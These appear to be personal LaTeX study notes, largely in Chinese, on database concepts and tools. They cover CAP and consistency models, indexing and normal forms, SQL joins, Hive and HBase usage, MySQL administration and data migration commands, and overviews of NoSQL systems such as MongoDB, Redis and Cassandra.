CAP原理指的是,这三个要素最多只能同时实现两点,不可能三者兼顾。因此在进行分布式架构设计时,必须做出取舍。而对于分布式数据系统,分区容忍性是基本要求,否则就失去了价值。因此设计分布式数据系统,就是在一致性和可用性之间取一个平衡。对于大多数web应用,其实并不需要强一致性,因此牺牲一致性而换取高可用性,是目前多数分布式数据库产品的方向。

对于一致性,可以分为从客户端和服务端两个不同的视角。从客户端来看,一致性主要指的是多并发访问时更新过的数据如何获取的问题。从服务端来看,则是更新如何复制分布到整个系统,以保证数据最终一致。一致性是因为有并发读写才有的问题,因此在理解一致性的问题时,一定要注意结合考虑并发读写的场景。

从客户端角度,多进程并发访问时,更新过的数据在不同进程如何获取的不同策略,决定了不同的一致性。对于关系型数据库,要求更新过的数据能被后续的访问都能看到,这是强一致性。如果能容忍后续的部分或者全部访问不到,则是弱一致性。如果经过一段时间后要求能访问到更新后的数据,则是最终一致性。

最终一致性根据更新数据后各进程访问到数据的时间和方式的不同,又可以区分为:
\begin{description}
\item[因果一致性]如果进程A通知进程B它已更新了一个数据项,那么进程B的后续访问将返回更新后的值,且一次写入将保证取代前一次写入。与进程A无因果关系的进程C的访问遵守一般的最终一致性规则
\item[read-your-writes一致性]当进程A自己更新一个数据项之后,它总是访问到更新过的值,绝不会看到旧值。这是因果一致性模型的一个特例。 
\item[会话(Session)一致性]这是上一个模型的实用版本,它把访问存储系统的进程放到会话的上下文中。只要会话还存在,系统就保证“读己之所写”一致性。如果由于某些失败情形令会话终止,就要建立新的会话,而且系统的保证不会延续到新的会话。 
\item[单调(Monotonic)读一致性]如果进程已经看到过数据对象的某个值,那么任何后续访问都不会返回在那个值之前的值。
\item[单调写一致性]系统保证来自同一个进程的写操作顺序执行。要是系统不能保证这种程度的一致性,就非常难以编程了。
\end{description}

上述最终一致性的不同方式可以进行组合,例如单调读一致性和读己之所写一致性就可以组合实现。并且从实践的角度来看,这两者的组合,读取自己更新的数据,和一旦读取到最新的版本不会再读取旧版本,对于此架构上的程序开发来说,会少很多额外的烦恼。

从服务端角度,如何尽快将更新后的数据分布到整个系统,降低达到最终一致性的时间窗口,是提高系统的可用度和用户体验非常重要的方面。对于分布式数据系统:
\begin{description}
\item [N] 数据复制的份数 
\item [W] 更新数据是需要保证写完成的节点数 
\item [R] 读取数据的时候需要读取的节点数
\end{description}

如果W+R>N,写的节点和读的节点重叠,则是强一致性。例如对于典型的一主一备同步复制的关系型数据库,N=2,W=2,R=1,则不管读的是主库还是备库的数据,都是一致的。

如果W+R<=N,则是弱一致性。例如对于一主一备异步复制的关系型数据库,N=2,W=1,R=1,则如果读的是备库,就可能无法读取主库已经更新过的数据,所以是弱一致性。

对于分布式系统,为了保证高可用性,一般设置N>=3。不同的N,W,R组合,是在可用性和一致性之间取一个平衡,以适应不同的应用场景。

如果N=W,R=1,任何一个写节点失效,都会导致写失败,因此可用性会降低,但是由于数据分布的N个节点是同步写入的,因此可以保证强一致性。 
如果N=R,W=1,只需要一个节点写入成功即可,写性能和可用性都比较高。但是读取其他节点的进程可能不能获取更新后的数据,因此是弱一致性。
这种情况下,如果W<(N+1)/2,并且写入的节点不重叠的话,则会存在写冲突。





%!Mode:: "TeX:UTF-8"
\section{数据库优化}

数据库优化措施包括:
\begin{itemize}
    \item 索引
    \item 拆分
    \item 读写分离
    \item 缓存,如memcached
    \item 优化SQL语句,减少不必要的where,order by, select语句不使用*, 减少访问数据库次数(宁可集中批量操作,避免频繁读写)
\end{itemize}

\subsection{数据库拆分(分布式)}

\begin{itemize}
    \item 垂直(纵向)拆分:是指按功能模块拆分,比如分为订单库、商品库、用户库...这种方式多个数据库之间的表结构不同。
    \item 水平(横向)拆分:将同一个表的数据进行分块保存到不同的数据库中,这些数据库中的表结构完全相同
	\begin{itemize}
    		\item 顺序拆分,如可以按订单的日前按年份才分,2003年的放在db1中,2004年的db2,以此类推。当然也可以按主键标准拆分。
    		\item hash取模分,优点是分布均匀
		\item 增加一层数据库维护拆分映射关系,优点是灵活性强	
	\end{itemize}
\end{itemize}


\subsection{读写分离}
基本的原理是让主数据库处理事务性查询,而从数据库处理SELECT查询。
数据库复制被用来把事务性查询导致的变更同步到集群中的从数据库。
读写分离简单的说是把对数据库读和写的操作分开对应不同的数据库服务器,这样能有效地减轻数据库压力,也能减轻IO压力。
主数据库提供写操作,从数据库提供读操作,其实在很多系统中,主要是读的操作。
当主数据库进行写操作时,数据要同步到从的数据库,这样才能有效保证数据库完整性。

\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.5\paperwidth]{Pictures/Network/EbayRWSplitting.png}
	\caption{Ebay的读写分离}
	\label{fig:VirtualServer}
	\end{center}
\end{figure}

\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.5\paperwidth]{Pictures/Network/MySQLSplitting.png}
	\caption{MySQL的读写分离}
	\label{fig:VirtualServer}
	\end{center}
\end{figure}


Ebay使用Oracle的数据库,通过Quest SharePlex工具进行数据同步。

MySQL也有自己的同步数据技术, 通过日志在从数据库重复主数据库的操作达到异步复制数据目的。



\subsection{索引}

索引是对数据库表中一列或多列的值进行排序的一种结构,使用索引可快速访问数据库表中的特定信息。
建立索引的目的是加快对表中记录的\textbf{查找}或\textbf{排序}。为表设置索引要付出代价的:一是增加了数据库的存储空间,二是在插入和修改数据时要花费较多的时间(因为索引也要随之变动)。
数据库索引就是为了提高表的搜索效率而对某些字段中的值建立的目录 。

创建索引可以大大提高系统的性能。第一,通过创建唯一性索引,可以保证数据库表中每一行数据的唯一性。第二,可以大大加快数据的检索速度,这也是创建索引的最主要的原因。第三,可以加速表和表之间的连接,特别是在实现数据的参考完整性方面特别有意义。第四,在使用分组和排序子句进行数据检索时,同样可以显著减少查询中分组和排序的时间。第五,通过使用索引,可以在查询的过程中,使用优化隐藏器,提高系统的性能。

例如这样一个查询:select * from table1 where id=10000。如果没有索引,必须遍历整个表,直到ID等于10000的这一行被找到为止;有了索引之后(必须是在ID这一列上建立的索引),即可在索引中查找。由于索引是经过某种算法优化过的,因而查找次数要少的多的多。可见,索引是用来定位的。

索引分为\textbf{聚簇索引}和\textbf{非聚簇索引}两种,聚簇索引是按照数据存放的物理位置为顺序的,而非聚簇索引就不一样了;聚簇索引能提高多行检索的速度,而非聚簇索引对于单行的检索很快。

根据数据库的功能,可以在数据库设计器中创建三种索引:唯一索引、主键索引和聚集索引。


唯一索引是不允许其中任何两行具有相同索引值的索引。
当现有数据中存在重复的键值时,大多数数据库不允许将新创建的唯一索引与表一起保存。数据库还可能防止添加将在表中创建重复键值的新数据。例如,如果在employee表中职员的姓(lname)上创建了唯一索引,则任何两个员工都不能同姓。

在数据库关系图中为表定义主键将自动创建主键索引,主键索引是唯一索引的特定类型。该索引要求主键中的每个值都唯一。当在查询中使用主键索引时,它还允许对数据的快速访问。

在\textbf{聚集索引}中,表中行的物理顺序与键值的逻辑(索引)顺序相同。一个表只能包含一个聚集索引。
如果某索引不是聚集索引,则表中行的物理顺序与键值的逻辑顺序不匹配。与非聚集索引相比,聚集索引通常提供更快的数据访问速度。

\textbf{应该在这些列上创建索引}

\begin{itemize}
    \item 
在经常需要搜索的列上,可以加快搜索的速度
    \item 
在作为主键的列上,强制该列的唯一性和组织表中数据的排列结构
    \item 
在经常用在连接的列上,这些列主要是一些外键,可以加快连接的速度;
    \item 
在经常需要根据范围进行搜索的列上创建索引,因为索引已经排序,其指定的范围是连续的;
    \item 
在经常需要排序的列上创建索引,因为索引已经排序,这样查询可以利用索引的排序,加快排序查询时间;
    \item 
在经常使用在WHERE子句中的列上面创建索引,加快条件的判断速度
\end{itemize}

\textbf{不应该在这些列上创建索引}

\begin{itemize}
    \item 
第一,对于那些在查询中很少使用或者参考的列不应该创建索引。这是因为,既然这些列很少使用到,因此有索引或者无索引,并不能提高查询速度。相反,由于增加了索引,反而降低了系统的维护速度和增大了空间需求。
    \item 
第二,对于那些只有很少数据值的列也不应该增加索引。这是因为,由于这些列的取值很少,例如人事表的性别列,在查询的结果中,结果集的数据行占了表中数据行的很大比例,即需要在表中搜索的数据行的比例很大。增加索引,并不能明显加快检索速度。
    \item 
第三,对于那些定义为text, image和bit数据类型的列不应该增加索引。这是因为,这些列的数据量要么相当大,要么取值很少,不利于使用索引。
    \item 
第四,当修改性能远远大于检索性能时,不应该创建索引。这是因为,修改性能和检索性能是互相矛盾的。当增加索引时,会提高检索性能,但是会降低修改性能。当减少索引时,会提高修改性能,降低检索性能。因此,当修改操作远远多于检索操作时,不应该创建索引。
\end{itemize}

\clearpage














%!Mode:: "TeX:UTF-8"
\section{关系数据库}

数据模型的三要素是\textbf{数据结构、数据操作和完整性约束}。根据数据结构的不同,常见的数据模型包括\textbf{层次模型,网状模型和关系模型}。

\textbf{实体完整性}要求每一个表中的主键字段都不能为空或者重复的值。
\textbf{域完整性}限制了某些属性中出现的值,把属性限制在一个有限的集合中。例如,如果属性类型是整数,那么它就不能是101.5或任何非整数。
\textbf{引用完整性}表示任何引用表中的外键都必须总引用被引用表中的一个有效行。引用完整性确保两表间的关系在更新和删除期间保持同步。
如果要删除被引用的对象,那么也要删除引用它的所有对象,或者把引用值设置为空(如果允许的话)。
\textbf{用户定义完整性}(user defined integrity)则是根据应用环境的要求和实际的需要,对某一具体应用所涉及的数据提出约束性条件。
这一约束机制一般不应由应用程序提供,而应有由关系模型提供定义并检验。

设FK是基本关系R的一个或一组属性,但不一定是关系R的主关键字。如果FK与基本关系S的主关键字相对应,则称FK是基本关系R的外关键字,并称基本关系R为引用关系,基本关系S为被引用关系。

\subsection{关系数据库的设计范式}
\textbf{第一范式(1NF)}是指数据库表的每一列都是不可分割的基本数据项,同一列中不能有多个值,即实体中的某个属性不能有多个值或者不能有重复的属性。

\textbf{第二范式}要求数据表里的所有数据都要和该数据表的主键有完全依赖关系;如果有哪些数据只和主键的一部份有关的话,就得把它们独立出来变成另一个数据表。如果一个数据表的主键只有单一一个字段的话,它就一定符合第二范式。所谓\textbf{完全依赖}是指不能存在仅依赖主关键字一部分的属性。

\textbf{第三范式}需要确保数据表中的每一列数据都和候选码直接相关,而不能间接相关。
若$R \in 3NF$,则$R$的每一个非主属性既不部分函数依赖于候选码也不传递函数依赖于候选码。

\textbf{BC范式(BCNF,3.5NF)}
是在第三范式的基础上加上更严格约束,每个BCNF关系是第三范式的子集,有从属关系。它的定义是:
如果对于关系模式$R \in 1NF$中存在的任意一个\textbf{非平凡函数依赖}(非平凡指A不说X子集)$X \to A$,都满足X是R的一个候选键,那么关系模式$R \in BCNF$。

函数依赖和多值依赖是两种最重要的数据依赖。如果只考虑函数依赖,则修正第三范式后的BCNF的关系模式规范化程度已经是最高的了。
\textbf{第四范式}涵义:$R \in 1NF$,如果对于R的每个非平凡多值依赖$X \to \to Y$,X都含有候选码,则$R \in 4NF$。
设R(U)是属性集U上的一个关系模式。X,Y,Z是U的子集,并且Z=U-X-Y。关系模式R(U)中\textbf{多值依赖}$X \to \to Y$成立,当且仅当对R(U)的任一关系r,给定的一对(x,z)值有一组Y的值,这组值仅仅决定于x值而与z值无关。若$X \to \to Y$,而Z为空集,则称$X \to \to Y$为平凡的多值依赖;若Z不为空,则称其为非平凡的多值依赖。


\subsection{流行的关系数据库}

\textbf{MySQL} 5作为当今最流行的开放源码数据库之一,MySQL数据库为用户提供了一个相对简单的解决方案,适用于广泛的应用程序部署,能够降低用户的TCO。
MySQL是一个多线程、结构化查询语言(SQL)数据库服务器。MySQL的执行性能高, 运行速度快,容易使用。

\textbf{PostgreSQL}是一个功能齐全、开放源码的对象一关系性数据库管理系统 (ORDBMS)。目前,PostgreSQL的稳定版本为8.4版,具有丰富的特性和商业级数据库管理系统的特质。这是一次向高质量大型数据库管理系统方向的飞跃。
PostgreSQL是很富特色的开源数据库管理系统,其特性覆盖SQL-2/SQL-92和SQL-3/SQL-99。


商用数据库包括IBM DB2,Oracle,Informix,Sybase,SQL Server。

\subsection{关系代数}

投影(projection)操作用来从关系R中生成一个新的关系,包含R的部分列,记作$\pi_{A_1,A_2,\dots,A_n}(R)$。

选择(selection)操作作用到R上,产生的新关系的元组必须满足涉及某属性的条件C,记作$\sigma_C(R)$。

\textbf{内连接}包括\textbf{相等连接},\textbf{自然连接},\textbf{$\theta$连接}和\textbf{交叉连接}等。

\textbf{交叉连接}(cross join),又称\textbf{笛卡尔连接}(cartesian join)或叉乘(Product),它是所有类型的内连接的基础。把表视为行记录的集合,交叉连接即返回这两个集合的笛卡尔积。这其实等价于内连接的链接条件为"永真",或连接条件不存在.如果 A 和 B 是两个集合,它们的交叉连接就记为: A × B.用于交叉连接的 SQL 代码在 FROM 列出表名,但并不包含任何过滤的连接谓词.
显式的交叉连接实例:

\begin{verbatim}
SELECT *
FROM   employee CROSS JOIN department
\end{verbatim}

隐式的交叉连接实例:

\begin{verbatim}
SELECT *
FROM   employee,department;
\end{verbatim}


\textbf{$\theta$连接}用于筛选出符合一定条件的元组。满足条件C的关系R和S的$\theta$连接记作$R \Join _{C} S$。

\textbf{相等连接} (equi-join,或 equijoin),是比较连接({$\theta$连接})的一种特例,它的连接谓词只用了相等比较。使用其他比较操作符(如 <)的不是相等连接。
\begin{verbatim}
SELECT *
FROM   employee 
INNER JOIN department 
ON employee.DepartmentID = department.DepartmentID
\end{verbatim}

\begin{verbatim}
SELECT *  
FROM   employee,department 
WHERE  employee.DepartmentID = department.DepartmentID
\end{verbatim}

 \textbf{自然连接}比相等连接的进一步特例化。两表做自然连接时,两表中的所有名称相同的列都将被比较,这是隐式的。自然连接得到的结果表中,两表中名称相同的列只出现一次。R与S的自然连接表示为$R \Join S$。

\begin{verbatim}
SELECT *
FROM   employee NATURAL JOIN department
\end{verbatim}

\textbf{外连接}并不要求连接的两表的每一条记录在对方表中都一条匹配的记录. 连接表保留所有记录 -- 甚至这条记录没有匹配的记录也要保留. 外连接可依据连接表保留左表, 右表或全部表的行而进一步分为左外连接, 右外连接和全连接.在标准的 SQL 语言中, 外连接没有隐式的连接符号.

\textbf{左外连接}(left outer join), 亦简称为左连接(left join), 若 A 和 B 两表进行左外连接, 那么结果表中将包含"左表"(即表 A)的所有记录, 即使那些记录在"右表" B 没有符合连接条件的匹配. 这意味着即使 ON 语句在 B 中的匹配项是0条, 连接操作还是会返回一条记录, 只不过这条记录的中来自于 B 的每一列的值都为 NULL. 这意味着左外连接会返回左表的所有记录和右表中匹配记录的组合(如果右表中无匹配记录, 来自于右表的所有列的值设为 NULL). 如果左表的一行在右表中存在多个匹配行, 那么左表的行会复制和右表匹配行一样的数量, 并进行组合生成连接结果.
\textbf{全连接}是左右外连接的并集. 连接表包含被连接的表的所有记录, 如果缺少匹配的记录, 即以 NULL 填充.一些数据库系统(如 MySQL)并不直接支持全连接, 但它们可以通过左右外连接的并集(union)来模拟实现.

自连接就是和自身连接.

\begin{verbatim}
SELECT F.EmployeeID, F.LastName, S.EmployeeID, S.LastName, F.Country
FROM Employee F, Employee S
WHERE F.Country = S.Country
AND F.EmployeeID < S.EmployeeID
ORDER BY F.EmployeeID, S.EmployeeID
-- 雇员表 Employee
\end{verbatim}



















\section{HBase}

Configuration file: hbase-site.xml

Start a client: 
\begin{verbatim}
hbase shell
\end{verbatim}


Common commands:

\begin{verbatim}
status
help
version
whoami


\end{verbatim}

A tutorial:\href{http://www.tuicool.com/articles/FZBNba}{HBase Tutorial}









\section{Hive}

To start hive in CLI mode, type \verb$hive$ or

\begin{verbatim}
beeline -u jdbc:hive2://
\end{verbatim}


Check built-in functions:

Hive Function Meta commands

\begin{itemize}
  \item 
SHOW FUNCTIONS– lists Hive functions and operators
  \item 
DESCRIBE FUNCTION [function name]– displays short description of the function
  \item 
DESCRIBE FUNCTION EXTENDED [function name]– access extended description of the function
\end{itemize}


\url{https://www.qubole.com/resources/cheatsheet/hive-function-cheat-sheet/}



\subsection{basic commands}

Database/Schema create:

\begin{verbatim}
  create database NAME;
\end{verbatim}

Table create:
\begin{verbatim}
CREATE EXTERNAL TABLE test_p(
id int,
name string 
)
partitioned by (date STRING)
ROW FORMAT DELIMITED FIELDS TERMINATED BY '\,' LINES TERMINATED BY '\n' 
STORED AS TEXTFILE;
\end{verbatim}


Data loading:

\begin{verbatim}
LOAD DATA [LOCAL] INPATH 'filepath' [OVERWRITE] INTO TABLE tablename [PARTITION (partcol1=val1, partcol2=val2 ...)]
\end{verbatim}


Data insert:
\begin{verbatim}
insert overwrite table session_hour_partition_save PARTITION (date='20170101',hour='01') select ....
\end{verbatim}

From Hive to HDFS:
\begin{verbatim}
insert overwrite  directory '/user/hive/tmp' select * from test;
\end{verbatim}

\subsection{Mapjoin: a trick to accelerate small table joins}


  Mapjoin is a little-known feature of Hive. 
  It allows a table to be loaded into memory so that a (very fast) join could be performed entirely within a mapper without having to use a Map/Reduce step. 
  If your queries frequently rely on small table joins (e.g. cities or countries, etc.) you might see a very substantial speed-up from using mapjoins.
There are two ways to enable it. 
First is by using a hint, which looks like \verb$/*+ MAPJOIN(aliasname), MAPJOIN(anothertable) */$. 
This C-style comment should be placed immediately following the SELECT. 
It directs Hive to load aliasname (which is a table or alias of the query) into memory.


\begin{verbatim}
  SELECT /*+ MAPJOIN(c) */ * FROM orders o JOIN cities c ON (o.city_id = c.id);
\end{verbatim}

Another (better, in my opinion) way to turn on mapjoins is to let Hive do it automatically.
 Simply set hive.auto.convert.join to true in your config, 
 and Hive will automatically use mapjoins for any tables smaller than hive.mapjoin.smalltable.filesize (default is 25MB).

Mapjoins have a limitation in that the same table or alias cannot be used to join on different columns in the same query. 
(This makes sense because presumably Hive uses a HashMap keyed on the column(s) used in the join, and such a HashMap would be of no use for a join on different keys).
The workaround is very simple - do not use the same aliases in your query.


%!Mode:: "TeX:UTF-8"
\section{MySQL}


\subsection{Deploying MySQL}

Starting MySQL in Mac OS X:
\begin{lstlisting}
mysql.server start
\end{lstlisting}
If that fails, just type \verb|mysqld|.

To Create a database in MySQL,
\begin{lstlisting}
create database samp_db character set gbk;
CREATE DATABASE IF NOT EXISTS mdss DEFAULT CHARSET utf8 COLLATE utf8_general_ci;
\end{lstlisting}


To create a table, the official site of MySQL gives an example:
\begin{lstlisting}
 CREATE TABLE pet (name VARCHAR(20), owner VARCHAR(20), species VARCHAR(20), sex CHAR(1), birth DATE, death DATE);
\end{lstlisting}

Read meta data:
\begin{lstlisting}
desc haah;
describe haah;
show columns from haah;
SHOW CREATE TABLE tablename;
show full columns from haah;
\end{lstlisting}

Schema can be specified when login,
\begin{lstlisting}
mysql -D dbname -h hostname -u username -p
\end{lstlisting}

SQL statements or a script can also be specified during the login command,
\begin{lstlisting}
mysql -D samp_db -u root  < h.sql
mysql -D samp_db -u root  -e 'select * from haah;'
\end{lstlisting}


\subsection{Configuration}

Check timeout settings,
\begin{verbatim}
show variables where variable_name like '%timeout';
\end{verbatim}


You change default value in MySQL configuration file

\begin{verbatim}
[mysqld]
connect_timeout=100
\end{verbatim}

Or set this in statements like
\begin{verbatim}
con.query('SET GLOBAL connect_timeout=28800')
con.query('SET GLOBAL wait_timeout=28800')
con.query('SET GLOBAL interactive_timeout=28800')
\end{verbatim}

\subsection{security management}

If you have never set a root password for MySQL, the server does not require a password at all for connecting as root. To set up a root password for the first time, use the mysqladmin command at the shell prompt as follows:

\begin{verbatim}
mysqladmin -u root password NEWPASS 
\end{verbatim}

If you want to change (or update) a root password to the new password 'newpass', then you need to use the following command:

\begin{verbatim}
mysqladmin -u root -p OLDPASS NEWPASS 
\end{verbatim}

\subsection{MySQL with Python}

Installation on Windows:
\begin{verbatim}
install using wheel
pip install wheel
download from http://www.lfd.uci.edu/~gohlke/pythonlibs/#mysql-python
pip install mysqlclient-1.3.8-cp36-cp36m-win_amd64.whl
\end{verbatim}


\subsection{Data Export and Import with CSV files}

\begin{verbatim}

mysql -uroot -p123456 -hmdss18 -Dmdss -e "SELECT * FROM i_ddos_current_events
INTO OUTFILE '/tmp/i_ddos_current_events.csv'
FIELDS TERMINATED BY ','
ENCLOSED BY '\"'
LINES TERMINATED BY '\n';"

scp root@mdss18:/tmp/*_ddos_*.csv root@mdss27:/tmp

mysql -uroot -p123456 -hmdss27 -Dmdss -e "
TRUNCATE i_ddos_current_events;
LOAD DATA INFILE '/tmp/i_ddos_current_events.csv' REPLACE
INTO TABLE i_ddos_current_events
FIELDS TERMINATED BY ','
ENCLOSED BY '\"'
LINES TERMINATED BY '\n';

\end{verbatim}


\subsection{Data Migration via SQL Scripts}

\begin{verbatim}
mysqldump -uroot -p123456 -hmdss18 mdss i_ddos_flood_events --where 'id in
(select id from i_ddos_current_events)'
 --lock-tables=false --no-create-info --insert-ignore 
 > /tmp/i_ddos_flood_events.sql
 
 mysql -uroot -p123456 -hmdss27 -Dmdss --force < /tmp/i_ddos_flood_events.sql
\end{verbatim}

\subsection{MySQL Ping}
\begin{verbatim}
/* ping */ select 1
\end{verbatim}




%!Mode:: "TeX:UTF-8"
\section{NoSQL}


NoSQL有时也称作Not Only SQL的缩写,是对不同于传统的关联式数据库的数据库管理系统的统称。
两者存在许多显著的不同点,其中最重要的是NoSQL不使用SQL作为查询语言。
其数据存储可以不需要固定的表格模式,也经常会避免使用SQL的JOIN操作,一般有水平可扩展性的特征。
NoSQL的实现具有二个特征:使用硬盘,或者把随机存储器作存储载体。
少数NoSQL系统部署了分布式结构,通常使用分散式杂凑表(DHT)将数据以冗余方式保存在多台服务器上。依此,扩充系统时候添加服务器更容易,并且扩大了对服务器失效的承受能程度。


\subsection{BigTable}
BigTable是Google设计的分布式数据存储系统,用来处理海量的数据的一种非关系型的数据库。

BigTable是非关系的数据库,是一个稀疏的、分布式的、持久化存储的多维度排序Map。Bigtable的设计目的是可靠的处理PB级别的数据,并且能够部署到上千台机器上。Bigtable已经实现了下面的几个目标:适用性广泛、可扩展、高性能和高可用性。Bigtable已经在超过60个Google的产品和项目上得到了应用,包括 Google Analytics、GoogleFinance、Orkut、Personalized Search、Writely和GoogleEarth。这些产品对Bigtable提出了迥异的需求,有的需要高吞吐量的批处理,有的则需要及时响应,快速返回数据给最终用户。它们使用的Bigtable集群的配置也有很大的差异,有的集群只有几台服务器,而有的则需要上千台服务器、存储几百TB的数据。

在很多方面,Bigtable和数据库很类似:它使用了很多数据库的实现策略。并行数据库和内存数据库已经具备可扩展性和高性能,但是Bigtable提供了一个和这些系统完全不同的接口。Bigtable不支持完整的关系数据模型;与之相反,Bigtable为客户提供了简单的数据模型,利用这个模型,客户可以动态控制数据的分布和格式(alex注:也就是对BigTable而言,数据是没有格式的,用数据库领域的术语说,就是数据没有Schema,用户自己去定义Schema),用户也可以自己推测(alex注:reasonabout)底层存储数据的位置相关性(alex注:位置相关性可以这样理解,比如树状结构,具有相同前缀的数据的存放位置接近。在读取的时候,可以把这些数据一次读取出来)。数据的下标是行和列的名字,名字可以是任意的字符串。Bigtable将存储的数据都视为字符串,但是Bigtable本身不去解析这些字符串,客户程序通常会在把各种结构化或者半结构化的数据串行化到这些字符串里。通过仔细选择数据的模式,客户可以控制数据的位置相关性。最后,可以通过BigTable的模式参数来控制数据是存放在内存中、还是硬盘上。

\subsection{HBase}

HBase是一个开源的非关系型分布式数据库(NoSQL),它参考了谷歌的BigTable建模,实现的编程语言为Java。
它是Apache软件基金会Hadoop项目的一部分,运行于HDFS文件系统之上,为Hadoop提供类似于BigTable规模的服务。HBase在列上实现了BigTable论文提到的压缩算法、内存操作和布隆过滤器。

HBase – Hadoop Database,是一个高可靠性、高性能、面向列、可伸缩的分布式存储系统,利用HBase技术可在廉价PC Server上搭建起大规模结构化存储集群。
HBase是Google Bigtable的开源实现,类似Google Bigtable利用GFS作为其文件存储系统,HBase利用Hadoop HDFS作为其文件存储系统;Google运行MapReduce来处理Bigtable中的海量数据,HBase同样利用Hadoop MapReduce来处理HBase中的海量数据;Google Bigtable利用 Chubby作为协同服务,HBase利用Zookeeper作为对应。
  
  
\subsection{mongodb}

MongoDB是一个高性能,开源,无模式的文档型数据库,是当前NoSql数据库中比较热门的一种。它在许多场景下可用于替代传统的关系型数据库或键/值存储方式。Mongo使用C++开发。

Mongo DB很好的实现了面向对象的思想(OO思想),在Mongo DB中 每一条记录都是一个Document对象。Mongo DB最大的优势在于所有的数据持久操作都无需开发人员手动编写SQL语句,直接调用方法就可以轻松的实现CRUD操作。

NoSQL数据库与传统的关系型数据库相比,它具有操作简单、完全免费、源码公开、随时下载等特点,并可以用于各种商业目的。
这使NoSQL产品广泛应用于各种大型门户网站和专业网站,大大降低了运营成本。
2010年,随着互联网Web2.0网站的兴起,NoSQL在国内掀起一阵热潮,其中风头最劲的莫过于MongoDB了。
越来越多的业界公司已经将MongoDB投入实际的生产环境,很多创业团队也将MongoDB作为自己的首选数据库,创造出非常之多的移动互联网应用。

MongoDB的文档模型自由灵活,可以让你在开发过程中畅顺无比。对于大数据量、高并发、弱事务的互联网应用,MongoDB可以应对自如。MongoDB内置的水平扩展机制提供了从百万到十亿级别的数据量处理能力,完全可以满足Web2.0和移动互联网的数据存储需求,其开箱即用的特性也大大降低了中小型网站的运维成本。

适用场合:
\begin{itemize}
\item 网站数据:Mongo非常适合实时的插入,更新与查询,并具备网站实时数据存储所需的复制及高度伸缩性。
\item 缓存:由于性能很高,Mongo也适合作为信息基础设施的缓存层。在系统重启之后,由Mongo搭建的持久化缓存层可以避免下层的数据源 过载。
\item 大尺寸,低价值的数据:使用传统的关系型数据库存储一些数据时可能会比较昂贵,在此之前,很多时候程序员往往会选择传统的文件进行存储。
\item 高伸缩性的场景:Mongo非常适合由数十或数百台服务器组成的数据库。Mongo的路线图中已经包含对MapReduce引擎的内置支持。
\item 用于对象及JSON数据的存储:Mongo的BSON数据格式非常适合文档化格式的存储及查询。
\end{itemize}


\subsection{Redis}
Redis是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库,并提供多种语言的API。
从2010年3月15日起,Redis的开发工作由VMware主持。

Redis是一个key-value存储系统。和Memcached类似,它支持存储的value类型相对更多,包括string(字符串)、list(链表)、set(集合)、zset(sorted set --有序集合)和hash(哈希类型)。这些数据类型都支持push/pop、add/remove及取交集并集和差集及更丰富的操作,而且这些操作都是原子性的。在此基础上,redis支持各种不同方式的排序。与memcached一样,为了保证效率,数据都是缓存在内存中。
区别的是redis会周期性的把更新的数据写入磁盘或者把修改操作写入追加的记录文件,并且在此基础上实现了master-slave(主从)同步。

Redis的外围由一个键、值映射的字典构成。与其他非关系型数据库主要不同在于:Redis中值的类型不仅限于字符串,还支持如下抽象数据类型:
\begin{itemize}
\item 字符串列表
\item 无序不重复的字符串集合
\item 有序不重复的字符串集合
\item 键、值都为字符串的哈希表
\end{itemize}
值的类型决定了值本身支持的操作。Redis支持不同无序、有序的列表,无序、有序的集合间的交集、并集等高级服务器端原子操作。

Redis通常将全部的数据存储在内存中。2.4版本后可配置为使用虚拟内存,一部分数据集存储在硬盘上,但这个特性废弃了。
目前通过两种方式实现持久化:
\begin{itemize}
\item 使用快照,一种半持久耐用模式。不时的将数据集以异步方式从内存以RDB格式写入硬盘。
\item 1.1版本开始使用更安全的AOF格式替代,一种只能追加的日志类型。将数据集修改操作记录起来。Redis能够在后台对只可追加的记录作修改来避免无限增长的日志。
\end{itemize}


Redis支持主从同步。数据可以从主服务器向任意数量的从服务器上同步,从服务器可以是关联其他从服务器的主服务器。这使得Redis可执行单层树复制。从盘可以有意无意的对数据进行写操作。由于完全实现了发布/订阅机制,使得从数据库在任何地方同步树时,可订阅一个频道并接收主服务器完整的消息发布记录。同步对读取操作的可扩展性和数据冗余很有帮助。


\subsection{Casssandra}
Cassandra最初由Facebook开发,后来成了Apache开源项目,它是一个网络社交云计算方面理想的数据库。它集成了其他的流行工具如Solr,现在已经成为一个完全成熟的大型数据存储工具。Cassandra是一个混合型的非关系的数据库,类似于Google的BigTable。其主要功能比Dynomite(分布式的Key-Value存储系统)更丰富,但支持度却不如文档存储MongoDB。Cassandra的主要特点就是它不是一个数据库,而是由一堆数据库节点共同构成的一个分布式网络服务,对Cassandra的一个写操作,会被复制到其他节点上去,而对Cassandra的读操作,也会被路由到某个节点上面去读取。在最近的一次测试中,Netflix建立了一个288个节点的集群。

\subsection{DynamoDB}
DynamoDB是亚马逊的key-value模式的存储平台,可用性和扩展性都很好,性能也不错:读写访问中99.9\%的响应时间都在300ms内。DynamoDB的NoSQL解决方案,也是使用键/值对存储的模式,平且通过服务器把所有的数据存储在SSD上的三个不同的区域。如果有更高的传输需求,DynamoDB也可以在后台添加更多的服务器。

\subsection{CouchDB}
CouchDB是用Erlang开发的面向文档的数据库系统,不过它不是一个传统的关系数据库,而是面向文档的数据库,其数据存储方式有点类似lucene的index文件格式,CouchDB最大的意义在于它是一个面向web应用的新一代存储系统。作为一个分布式的数据库,CouchDB可以把存储系统分布到n台物理的节点上面,并且很好的协调和同步节点之间的数据读写一致性。CouchDB支持REST API,可以让用户使用JavaScript来操作CouchDB数据库,也可以用JavaScript编写查询语句,可以想像一下,用AJAX技术结合CouchDB开发出来的CMS系统会是多么的简单和方便。


